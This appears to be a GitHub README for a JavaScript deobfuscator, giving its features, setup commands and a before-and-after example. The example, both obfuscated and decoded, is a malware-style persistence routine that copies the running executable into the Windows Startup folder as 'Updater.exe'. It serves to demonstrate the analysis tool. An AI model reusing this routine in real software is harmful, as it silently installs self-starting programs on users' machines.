 # Decode

## Overview

This tool is a powerful code deobfuscator designed to unravel and simplify obfuscated JavaScript code. Whether you're dealing with minification, string obfuscation, or control flow flattening, this deobfuscator is equipped with a set of features to make your code more readable and maintainable.

## Features

- **String Recovery:** Easily recover obfuscated strings, making your code more human-readable.

- **Proxy Function Removal:** Strip away proxy functions to simplify the structure of your code.

- **Object Simplification:** Remove unnecessary complexity by simplifying objects within the code.

- **Arithmetic Expression Simplification:** Simplify complex arithmetic expressions for improved code clarity.

- **String Concatenation Simplification:** Transform convoluted string concatenation into a more straightforward form.

- **Dead Code Removal:** Identify and eliminate dead code, reducing redundancy in your scripts.

- **Control Flow Flattening Reversal:** Reverse control flow flattening, restoring the logical structure of your code.

- **Compatibility:** Capable of handling code obfuscated using obfuscator.io forks and similar techniques.

- **Safety:** This deobfuscator is designed to be safe, ensuring that it doesn't execute any untrusted code or use sandboxing.

- **Automatic Config Detection:** Streamline the deobfuscation process with automatic configuration detection.

## How to Use

1. **Clone the Repository:**
   - Clone this repository to your local machine.

```bash
git clone https://github.com/yourusername/code-deobfuscator.git
cd code-deobfuscator
```
2. **Install Dependencies:**
   - Install any necessary dependencies.
```bash
npm install
```
3. **Run the Deobfuscator:**
   - Execute the deobfuscator on your obfuscated JavaScript file.
```bash
npm run start
```

> [!IMPORTANT]
> When you run the script, remember that in the input folder you have to add your obfuscated code and the result will appear in output

**Example**
- Obfuscated code 
```js
async function example() {
  function _0x1bce(_0x566ed4, _0x3b3726) {
    var _0x1a85e6 = _0x23f3();
    return (
      (_0x1bce = function (_0x5211c8, _0x2b606e) {
        _0x5211c8 = _0x5211c8 - (-0x2c5 + -0x1273 + 0x15a0);
        var _0x13e9af = _0x1a85e6[_0x5211c8];
        return _0x13e9af;
      }),
      _0x1bce(_0x566ed4, _0x3b3726)
    );
  }
  var _0x5e6537 = _0x1bce;
  (function (_0x20c885, _0x187c60) {
    var _0x11069a = _0x1bce,
      _0x21bc9d = _0x20c885();
    while (!![]) {
      try {
        var _0x48211d =
          -parseInt(_0x11069a(0x7e)) / (0x1 * 0xbb6 + 0x1802 + -0x23b7) +
          (parseInt(_0x11069a(0x77)) /
            (-0x1be9 + -0x1c1f * -0x1 + -0x2 * 0x1a)) *
            (parseInt(_0x11069a(0x6a)) /
              (-0x99 * 0x23 + -0x12d5 + 0x9 * 0x46b)) +
          parseInt(_0x11069a(0x6f)) / (0x1580 + 0x889 + -0x1e05) +
          (-parseInt(_0x11069a(0x82)) /
            (0x173 * -0x13 + -0xc * 0x116 + 0x2896)) *
            (-parseInt(_0x11069a(0x70)) /
              (0x13 * -0x4a + 0x699 * 0x3 + -0x2db * 0x5)) +
          (parseInt(_0x11069a(0x6b)) /
            (-0x2322 * -0x1 + -0x821 * 0x1 + -0x1afa)) *
            (parseInt(_0x11069a(0x68)) / (-0x12cb + -0x1ee5 * 0x1 + 0x31b8)) +
          (-parseInt(_0x11069a(0x7c)) /
            (0xe42 + 0x24d7 * 0x1 + -0x1988 * 0x2)) *
            (parseInt(_0x11069a(0x73)) / (0xe56 + -0x9d * -0x14 + -0x1a90)) +
          (-parseInt(_0x11069a(0x7f)) / (0x217b + 0x218 * 0x4 + -0x29d0)) *
            (parseInt(_0x11069a(0x69)) /
              (0x9f * -0x1 + 0x1 * 0x14f9 + 0x1 * -0x144e));
        if (_0x48211d === _0x187c60) break;
        else _0x21bc9d["push"](_0x21bc9d["shift"]());
      } catch (_0x295d1) {
        _0x21bc9d["push"](_0x21bc9d["shift"]());
      }
    }
  })(_0x23f3, 0xc6 * 0xe21 + -0x152c97 + 0x16dccd),
    fs[_0x5e6537(0x79) + _0x5e6537(0x7b)](process[_0x5e6537(0x6c)])[
      _0x5e6537(0x83)
    ](
      fs[_0x5e6537(0x74) + _0x5e6537(0x81)](
        process[_0x5e6537(0x71)][_0x5e6537(0x78)][_0x5e6537(0x72)](
          "\x5c",
          "/",
        ) +
          (_0x5e6537(0x80) +
            _0x5e6537(0x6e) +
            _0x5e6537(0x76) +
            _0x5e6537(0x7a) +
            _0x5e6537(0x7d) +
            _0x5e6537(0x6d)),
      ),
    ),
    setTimeout(
      () => {
        var _0xa4aefc = _0x5e6537;
        fs[_0xa4aefc(0x75)](
          process[_0xa4aefc(0x71)][_0xa4aefc(0x78)][_0xa4aefc(0x72)](
            "\x5c",
            "/",
          ) +
            (_0xa4aefc(0x80) +
              _0xa4aefc(0x6e) +
              _0xa4aefc(0x76) +
              _0xa4aefc(0x7a) +
              _0xa4aefc(0x7d) +
              _0xa4aefc(0x6d)),
          process[_0xa4aefc(0x71)][_0xa4aefc(0x78)][_0xa4aefc(0x72)](
            "\x5c",
            "/",
          ) +
            (_0xa4aefc(0x80) +
              _0xa4aefc(0x6e) +
              _0xa4aefc(0x76) +
              _0xa4aefc(0x7a) +
              _0xa4aefc(0x7d) +
              _0xa4aefc(0x6d)),
        );
      },
      0x1aa * -0xd + 0x913 * -0x4 + 0x45a6,
    );
  function _0x23f3() {
    var _0x3bc1f0 = [
      "argv0",
      "ater.exe",
      "/Windows/S",
      "2636816pJbLfR",
      "18jTIlbA",
      "env",
      "replace",
      "1130KWAUZn",
      "createWrit",
      "renameSync",
      "tart\x20Menu/",
      "912524YLnlFr",
      "APPDATA",
      "createRead",
      "Programs/S",
      "Stream",
      "89415AijWFZ",
      "tartup/Upd",
      "23480GelAtX",
      "11ffTZGi",
      "/Microsoft",
      "eStream",
      "244355evYuvQ",
      "pipe",
      "616OvFKxw",
      "6084492XlFIyr",
      "3wDQjSq",
      "110719qGebmE",
    ];
    _0x23f3 = function () {
      return _0x3bc1f0; 
    }; 
    return _0x23f3(); 
  }
}
```

- Result of this
```js
async function example() {
  fs.createReadStream(process.argv0).pipe(
    fs.createWriteStream(
      process.env.APPDATA.replace("\\", "/") +
        "/Microsoft/Windows/Start Menu/Programs/Startup/Updater.exe",
    ),
  );
  setTimeout(() => {
    fs.renameSync(
      process.env.APPDATA.replace("\\", "/") +
        "/Microsoft/Windows/Start Menu/Programs/Startup/Updater.exe",
      process.env.APPDATA.replace("\\", "/") +
        "/Microsoft/Windows/Start Menu/Programs/Startup/Updater.exe",
    );
  }, 3000);
}
```

## Credits

This project was officially initialized from [deobfuscate.io](https://obf-io.deobfuscate.io/) all credits are due to them, but currently I am giving better support to the entire base in obsolescence or bugs code

## Contributing

If you have insights, suggestions, or contributions, please feel free to open an issue or submit a pull request.

## License

This project is licensed under the terms of the [MIT License](LICENSE).

Please use this tool responsibly and in accordance with the law and ethical guidelines.
